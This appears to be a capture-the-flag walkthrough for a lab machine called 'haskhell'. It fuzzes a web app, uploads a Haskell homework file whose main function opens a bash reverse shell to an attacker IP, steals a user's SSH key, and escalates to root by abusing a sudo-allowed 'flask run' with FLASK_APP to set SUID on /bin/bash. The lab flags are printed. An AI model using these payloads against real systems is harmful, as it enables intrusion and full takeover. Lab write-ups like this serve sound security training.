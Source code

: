```yaml
---
sticker: emoji//1f9d1-200d-1f4bb
---
```

# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22   | SSH     |
| 5001 | HTTP    |



# RECONNAISSANCE
---


We can begin by visiting the web application:

![](Pasted%20image%2020250404151817.png)


If we go to the homework section, we can see the following:


![](Pasted%20image%2020250404152029.png)

We can go to the link and it will take us here:

![](Pasted%20image%2020250404152050.png)

If we fuzz, we can find the submit directory in which we can upload a `haskell` file:


```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.110.142:5001/FUZZ" -ic -c -t 200\

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.110.142:5001/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 200
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________
submit                  [Status: 200, Size: 237, Words: 48, Lines: 9, Duration: 655ms]

```


A Haskell file (with the `.hs` extension) is a text file containing code written in the Haskell programming language, a purely functional, statically typed language. These files are used to define functions, data types, and program logic. When compiled or interpreted, the code is executed to perform tasks.

Based on that, we can begin exploitation.


# EXPLOITATION
---


Ok, if we read the homework section, we can find the indications on how to upload the Haskell file:

```
1) A function called "fib" that outputs the Fibonacci sequence. I will be checking for the first 100 numbers formatted as "1 1 3 ...".

2) A function called "range" that takes 2 numbers and returns a flat list containing all the integers in that range. Example: range 1 5 outputs [1,2,3,4,5]

3) A function called "grey" that takes a number as input and returns all of the codes for that n-bit number. Ex: grey 3 outputs ['000','001','011','010',110,111,101,100]. You can find more information about grey codes here: https://en.wikipedia.org/wiki/Gray_code" 
```


Nice, if we follow the instructions, we can create a payload to receive a reverse shell:

```haskell
module Main where

import System.Process

-- Homework functions (required to pass checks)
fib :: Int -> Int -> [Int]
fib a b = take 100 $ a : b : zipWith (+) (fib a b) (tail (fib a b))

range :: Int -> Int -> [Int]
range x y = [x..y]

grey :: Int -> [String]
grey n
    | n <= 0    = [""]
    | otherwise = map ('0':) prev ++ map ('1':) (reverse prev)
    where prev = grey (n-1)

-- Reverse shell payload (adjust IP/PORT)
main :: IO ()
main = callCommand "bash -c 'bash -i >& /dev/tcp/IP/PORT 0>&1'"
```

If we upload the file, and set up our listener, we can see the following:

![](Pasted%20image%2020250404152827.png)

There we go, we got our shell. Let's start privilege escalation.




# PRIVILEGE ESCALATION
---


Let's begin by stabilizing the shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

We can read user.txt now:

```
flask@haskhell:/home/prof$ cat user.txt
flag{academic_dishonesty}
```

We can grab the `id_rsa` from `prof` and log into ssh:

![](Pasted%20image%2020250404153210.png)


If we check our sudo privileges, we can notice this:

```
prof@haskhell:~$ sudo -l
Matching Defaults entries for prof on haskhell:
    env_reset, env_keep+=FLASK_APP, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User prof may run the following commands on haskhell:
    (root) NOPASSWD: /usr/bin/flask run
```

Let's read the script:

```python
prof@haskhell:~$ cat /usr/bin/flask

#!/usr/bin/python3
# EASY-INSTALL-ENTRY-SCRIPT: 'Flask==0.12.2','console_scripts','flask'
__requires__ = 'Flask==0.12.2'
import re
import sys
from pkg_resources import load_entry_point

if __name__ == '__main__':
    sys.argv[0] = re.sub(r'(-script\.pyw?|\.exe)?$', '', sys.argv[0])
    sys.exit(
        load_entry_point('Flask==0.12.2', 'console_scripts', 'flask')()
    )
```


- The `FLASK_APP` environment variable is preserved due to `env_keep` in the sudoers configuration. 
- By pointing `FLASK_APP` to a malicious script, Flask executes it as root when `sudo flask run` is called.
- This bypasses restrictions because the script runs in the context of the Flask process (owned by root).

So, we can do the following:

1. Create a malicious file with the following contents:

```python
import os
os.system('chmod u+s /bin/bash')  # Set SUID bit on /bin/bash
```

2, Set the environment variable:

```
export FLASK_APP=exploit.py
```

3. Run flask as root:

```
sudo /usr/bin/flask run
```

We can see the following:

![](Pasted%20image%2020250404154306.png)

There we go, we got our root shell and can finally read `root.txt`:

```
bash-4.4# cat /root/root.txt
flag{im_purely_functional}
```

![](Pasted%20image%2020250404154405.png)

